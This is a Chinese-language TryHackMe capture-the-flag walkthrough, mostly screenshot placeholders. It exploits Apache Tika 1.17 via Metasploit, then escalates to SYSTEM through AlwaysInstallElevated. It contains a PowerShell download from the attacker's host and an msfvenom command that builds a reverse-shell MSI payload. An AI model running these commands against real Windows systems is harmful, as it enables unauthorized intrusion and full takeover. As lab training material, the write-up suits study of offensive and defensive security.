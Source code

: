 ![image-20250529091825349](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529091825349.png)

我们得到了ip，将其加入hosts中

![image-20250529092147739](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529092147739.png)

我们用nmap扫出的信息，我们可以判断这是windows系统

![image-20250529093355503](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529093355503.png)

查看源代码，我们发现了一个端口，我们进行访问一下

![image-20250529093643305](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529093643305.png)

我们可以看到当前版本是Apache Tika 1.17

我们直接去searchsploit

![image-20250529095629631](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529095629631.png)

我们用msfconsole去攻击

![image-20250529100251383](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529100251383.png)

我们拿到了session，输入shell获得一个远程shell

进到用户的桌面，我们拿到了flag

![image-20250529100601048](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529100601048.png)



```
powershell wget http://10.17.19.218:8080/PrivescCheck.ps1  
```

我们将脚本下载下来，然后通过

```
Get-ChildItem -Path C:\ -Recurse -Filter "PrivescCheck.ps1"
```

![image-20250529105942450](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529105942450.png)

手动检查，可以看到没有开启防病毒

我们回到脚本结束的地方

**![image-20250529110104908](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529110104908.png)**

哦我们呢看到了AlaysInstallElevated

```
cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'
```

![image-20250529111124982](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529111124982.png)

确定这是一个 x64 系统后，我们回到攻击者的机器，从我们的工作目录中制作我们的漏洞利用程序，如下所示：

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.19.218 LPORT=4445 -a x64 --platform Windows -f msi -o evil.msi
```

![image-20250529111430842](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529111430842.png)

下载文件

![image-20250529111659555](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250529111659555.png)

执行后得到system权限